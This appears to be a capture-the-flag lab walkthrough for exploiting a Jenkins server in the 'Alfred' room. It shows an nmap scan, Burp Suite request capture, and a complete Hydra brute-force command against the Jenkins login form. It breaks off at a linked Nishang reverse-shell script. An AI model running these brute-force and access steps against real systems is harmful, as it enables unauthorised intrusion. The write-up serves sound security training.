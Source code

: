 # Alfred
* Exploit a common misconfiguration on a widely used automation server (Jenkins).
  * Jenkins is used to create continuous integration/continuous development pipelines that allow developers to automatically deploy their code once they made changes to it).
* Use an interesting privilege escalation method to get full system access.
## Initial Access
* nmap scan to determine open TCP ports.
```
nmap -sT -sV -p- -oN TARGET_IP_scan.nmap TARGET_IP
```
```
Not shown: 65532 filtered ports
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 7.5
3389/tcp open  ms-wbt-server Microsoft Terminal Service
8080/tcp open  http          Jetty 9.4.z-SNAPSHOT
```
* Identify username and password for login panel.
* Send login attempt via Burpsuite.
  * Target > Project > Scope > Include "http://TARGET_IP:8080" in scope.
  * Ensure Interecpt is on.
  * Open inbuilt Chromium browser to intercept requests.
  * Proxy username and password of "12345" via login panel.
  * Forward request to Repeater.
  * Send to see the response.
    * `Location` header.
```
Location: http://TARGET_IP:8080/loginError
```
* Brutefore login panel using Hydra.
```
hydra -L /usr/share/wordlists/rockyou.txt -P /usr/share/wordlists/rockyou.txt TARGET_IP -s 8080 http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^:Invalid username or password"
```
  * Login or Wordlist for Usernames = `/usr/share/wordlists/rockyou.txt`.
  * Password or Wordlist for Passwords = `/usr/share/wordlists/rockyou.txt`.
  * IP address or Hostname = TARGET_IP.
  * HTTP Method (POST/GET) = `http-form-post`.
    * **Inspect Element** in browser.
    * **Network** tab of developer tools.
    * Attempt a login.
    * GET or POST Method displayed in request.
```
POST /j_acegi_security_check HTTP/1.1
```
  * Directory/Path to the Login Page = `/j_acegi_security_check`.
    * Request header "Filename" attribute contains this.
```
/j_acegi_security_check
```
  * Request Body for Username/Password = `j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in`
    * **Inspect Element** in browser.
    * **Network** tab of developer tools.
    * Attempt a login.
    * Right click on request > **Edit and Resend**.
    * **Request Body** contains entered username and password.
    * Grab entire request.
```
j_username=12345&j_password=12345&from=%2F&Submit=Sign+in
```
    * Replace entered username with `^USER^ to tell Hydra to enter words from wordlist in this position of the request.
    * Replace entered password with ^PASS^. 
  * Way to Identify Failed Attempts = `Invalid username or password`.
    * Attempt to login using incorrect credentials.
    * Presented with "Invalid username or password" text.
    * Add this to Hydra command.
* Use [Nishang](https://github.com/samratashok/nishang) [reverse shell scripts](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) to gain initial access.
 
